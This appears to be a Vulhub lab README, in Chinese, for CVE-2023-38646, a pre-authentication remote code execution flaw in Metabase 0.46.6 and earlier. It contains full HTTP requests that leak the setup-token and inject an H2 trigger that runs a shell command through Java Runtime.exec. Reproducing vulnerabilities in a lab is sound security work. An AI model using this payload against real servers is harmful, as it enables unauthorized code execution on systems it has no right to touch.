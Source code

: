 # Metabase未授权JDBC远程代码执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.46.6版本及以前，存在一处远程代码执行漏洞，未授权的用户可以使用JDBC注入在服务器上执行任意代码。

参考链接：

- https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
- https://blog.calif.io/p/reproducing-cve-2023-38646-metabase
- https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA

## 环境搭建

Vulhub执行如下命令启动一个Metabase server 0.46.6：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![image-20230803144456721](images/image-20230803144456721.png)

## 漏洞复现

首先，需要先访问`/api/session/properties`来获取Metabase的`setup-token`：

```
GET /api/session/properties HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![image-20230803145405274](images/image-20230803145405274.png)

要利用漏洞，必须要获取这个Token。

接着，将刚才获取的`[setup-token]`替换进下面这个请求后发送：

```
POST /api/setup/validate HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230803150105927](images/image-20230803150105927.png)

虽然 response code 为 400，但可以看到，`touch /tmp/success`已成功在Metabase容器中执行：

![image-20230803150134198](images/image-20230803150134198.png)